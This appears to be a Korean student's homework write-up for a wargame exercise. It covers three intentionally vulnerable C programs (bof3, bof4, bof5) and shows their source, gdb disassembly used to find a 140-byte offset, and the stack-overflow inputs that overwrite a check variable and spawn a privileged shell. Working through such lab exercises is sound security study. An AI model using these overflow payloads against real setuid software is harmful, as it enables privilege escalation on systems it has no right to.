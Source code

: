 # Report. HW6.

## `bof5`

<details><summary>`bof5.c`</summary>
<p>
    
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define G "\033[32m"
#define Y "\033[33m"
#define E "\033[0m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];
    
    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1006, 1006)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1006, 1006)) {
            perror("setgid");
            exit(1);
        }
        system(buf);
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

### 이전과의 차이점
- `bof4`는 argument로 문자열을 넘겨주었지만, 이번엔 *프로그램 내 입력*을 통하여 문자열을 넘겨주어야 한다.
- `system("/bin/sh")`을 통하여 BOF가 발생했을 경우 그 안에서 쉘을 실행하는 구문이 이번엔 `system(buf)`으로 바뀌었다. 그러니까, *입력을 통해* `/bin/sh`을 실행하여야 한다.

### 진행
그래서... 이번에도 `buf`와 `innocent` 간에 거리가 얼만큼 되는지 알아보아야 한다.

문자열을 입력받는 `gets`

    0x555555555244  <vuln+27>       lea rax, [rbp-0x90]
    0x55555555524b  <vuln+34>       mov rdi, rax
    0x55555555524e  <vuln+37>       mov eax, 0x0
    0x555555555253  <vuln+42>       call 0x5555555550f0 <gets@plt>
    
... 부분에서, `$rdi`가 가리키는 주소 `$rbp - 0x90` 주소를 찾아보니 주소값 `0x00007fffffffe400`이 나왔다. 여기가 `buf`의 시작주소일 것이다.

그리고 `innocent`와 `KEY`를 비교하는 부분

    0x555555555273  <vuln+74>       cmp DWORD PTR [rbp-0x4], 0x12345678
    
...에서 `innocent`가 있는 주소값 `$rbp - 0x4`가 가리키는 곳을 찾아보니 주소값 `0x00007fffffffe48c`가 나왔다. `buf`에서 **140** 만큼의 주소값 차이가 존재한다. 그러니까... `gets`를 통해 140글자를 입력하고 뒤에 `KEY` 값을 넣어줘야 `innocent == KEY`가 `true`가 되어 그 안에 있는 코드가 실행될 것이다.

입력할 때 앞에 "/bin/sh; "를 붙여주자(그래야 쉘이 안에서 실행된다). 그리고... 중간에 있는 내용들은 #로 채워놓자(그래야 쉘이 실행되고 아무것도 실행하지 않게 - 중간에 채워놓은 #들 때문에 주석처리가 되어 아무것도 실행을 하지 않게 - 된다. 그 다음에 `innocent`에 들어갈 비교값 `0x12345678`을 **little-endian** 방식으로 입력을 시켜주고.

위의 말을 코드로 바꾸면, `"python -c ('/bin/sh; ' + '#' * 131 + '\x78\x56\x34\x12')"`의 결과물을 `bof5`의 입력값으로 주면 될 것이다.

![bof5_input_done](./HW6_screenshots/HW6_1.png)

성공했다. (`bof6` 비밀번호는 일부러 잘랐다)



## `bof3`

<details><summary>bof3.c</summary>
<p>

```c
// AFTER => bof2.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x61
#define G "\033[32m"
#define E "\033[0m"
#define Y "\033[33m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent  == KEY) {
        if (setreuid(UID_BOF4, UID_BOF4)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF4, UID_BOF4)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

`bof5`를 먼저 작성하고 `bof3`을 보았더니 `KEY`와 `system("/bin/sh")` 부분을 제외하고 다른 부분이 없...다. 그래서 풀이 방법도 비슷하다고 생각했는데, 우선... `innocent`와 `buf`의 주소값을 알아보자.

`bof5` 때와 같은 부분에서 `gets`가 참고하는 `$rdi`가 가리키는 주소 `$rbp - 0x90`의 주소값은 `0x00007fffffffe400`이 나왔고, `innocent`와 `KEY`를 비교하는 부분에서 `$rbp - 0x4`의 주소값으로 `0x00007fffffffe48c`가 나왔다. 여기도 동일하게 주소값 차이는 140이 나왔고.

`KEY`는 `0x61`... 그러니까 `0x00000061`인데, little-endian 방식으로라면 `\x00\x00\x00\x61`이 아니라 그냥 `\x61`만 주면 될 것이다.

위의 말을 코드로 바꾸면, `"python -c ('a' * 141)"`의 결과물을 `bof3`의 입력값으로 주면 될 것이다. (`0x61`은 소문자 `a`)

![bof3_input_done](./HW6_screenshots/HW6_2.png)

성공했다.



## `bof4`

<details><summary>bof4.c</summary>
<p>

```c
// AFTER => bof3.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define R "\033[31m"
#define E "\033[0m"

void vuln(char * arg) {
    int innocent;
    char buf[BUF_SIZE];

    strcpy(buf, arg);
    printf("Hello %s!\n", buf);

    if (innocent == KEY) {
        if (setreuid(UID_BOF5, UID_BOF5)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF5, UID_BOF5)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(int argc, char *argv[]){
    if (argc < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(argv[1]);
    return 0;
}
```

</p></details>

`bof3`과는...
- 프로그램 내 입력이 아닌, 프로그램의 argument로 번호를 넘겨주게 된다.
- 키값이 달라졌다.
...의 차이가 있고, `bof5`과는...
- 프로그램 내 입력이 아닌, 프로그램의 argument로 번호를 넘겨주게 된다.
- `system` 안도 내가 쉘 경로를 줘야하진 않고, `innocent`만 바꾸는 데에 성공하면 쉘을 실행하게 된다.
...의 차이가 있다.

일단 똑같이 **BOF**를 통해 `innocent`에 값을 넘겨줘야 할 텐데... 주소값을 확인해 보자.

    0x555555555246  <vuln+29>       lea rax, [rbp-0x90]
    0x55555555524d  <vuln+36>       mov rsi, rax
    0x555555555250  <vuln+39>       mov rdi, rax
    0x555555555253  <vuln+42>       call 0x5555555550c0 <strcpy@plt>
    
...에서 `buf`의 첫번째 부분에 해당하는 `$rbp-0x90`이 가리키는 주소를 보았더니 주소값 `0x00007fffffffe3f0`이 나왔다. 그리고...

    0x555555555273  <vuln+74>       cmp DWORD PTR [rbp-0x4], 0x12345678

...에서 `innocent`의 주소값을 보았더니 `0x00007fffffffe47c`가 나왔다. 여기도 `buf`와 `innocent` 간에 140의 주소값 차이가 있었다.

140개의 더미 문자들을 주고 little-endian 방식으로 `0x12345678`을 주려고 한다면 `python -c "print ('a' * 140 + '\x78\x56\x34\x12')"`의 출력물을 argument로 넘겨주면 될 것 같다.

![bof4_input_done](./HW6_screenshots/HW6_3.png)

성공했다.

# -- END --

